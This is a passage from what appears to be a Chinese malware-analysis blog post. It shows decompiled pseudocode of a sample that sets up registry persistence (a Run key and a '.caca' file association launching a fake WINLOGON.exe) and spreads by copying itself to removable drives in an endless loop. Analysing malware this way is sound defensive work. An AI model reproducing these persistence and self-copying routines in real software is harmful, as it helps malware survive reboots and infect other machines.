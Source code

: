 又回到`sub_401580`的循环开始处。

{% highlight c %}

LSTATUS __cdecl sub_4011E0(LPCSTR lpData)
{
  HKEY phkResult; // [sp+10h] [bp-4h]@1

  RegCreateKeyA(HKEY_CLASSES_ROOT, SubKey, &phkResult); // .caca
  RegSetValueA(phkResult, 0, 1u, Data, strlen(Data)); // cacafile
  RegCloseKey(phkResult);
  RegCreateKeyA(HKEY_CLASSES_ROOT, aCacafileShellO, &phkResult); // cacafile\shell\open\command
  RegSetValueA(phkResult, 0, 1u, NewFileName, strlen(NewFileName)); // C:\Program Files\Internet Explorer\WINLOGON.exe
  RegCloseKey(phkResult);
  RegCreateKeyA(HKEY_LOCAL_MACHINE, aSoftwareMicros, &phkResult);// software\Microsoft\Windows\CurrentVersion\Run
  RegSetValueA(phkResult, 0, 1u, lpData, strlen(lpData)); // C:\Program Files\system.caca
  return RegCloseKey(phkResult);
}

void __noreturn sub_401580()
{
  int v0; // esi@2
  CHAR NewFileName; // [sp+10h] [bp-104h]@2
  while ( 1 ) // forever
  {
    if ( sub_4012E0() / 110 )
    {
      Sleep(0x64u);
    }
    else
    {
      v0 = sub_4012E0();
      sub_4013A0(v0);
      wsprintfA(&NewFileName, aCMydocument_ex, v0);
      CopyFileA(::NewFileName, &NewFileName, 1);
    }
  }
}

signed int sub_4012E0()
{
  int v0; // ebx@1
  CHAR RootPathName; // [sp+10h] [bp-14h]@2
  int v3; // [sp+18h] [bp-Ch]@1
  int v4; // [sp+1Ch] [bp-8h]@1
  char v5; // [sp+20h] [bp-4h]@1

  v3 = dword_4090F0;                            // 'gfed'
  v4 = dword_4090F4;                            // 'kjih'
  v5 = byte_4090F8;                             // 0
  v0 = 0;
  while ( 1 )
  {
    wsprintfA(&RootPathName, aC_0, *((_BYTE *)&v3 + v0));
    strcat(&RootPathName, asc_409038);
    if ( GetDriveTypeA(&RootPathName) == 2 ) // removable disc
      return *((_BYTE *)&v3 + v0);
    if ( v0 == 8 ) // no removable disc, break
      break;
    Sleep(0x64u);
    if ( ++v0 >= 9 )
      return 0;
  }
  return 110;
